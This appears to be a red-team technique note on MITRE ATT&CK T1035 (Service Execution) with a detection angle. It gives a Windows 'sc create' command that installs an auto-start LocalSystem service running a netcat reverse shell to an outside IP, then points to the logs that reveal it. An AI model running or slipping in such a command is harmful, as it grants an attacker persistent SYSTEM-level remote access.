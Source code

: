 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe as expected:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

![](../.gitbook/assets/services-shell.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

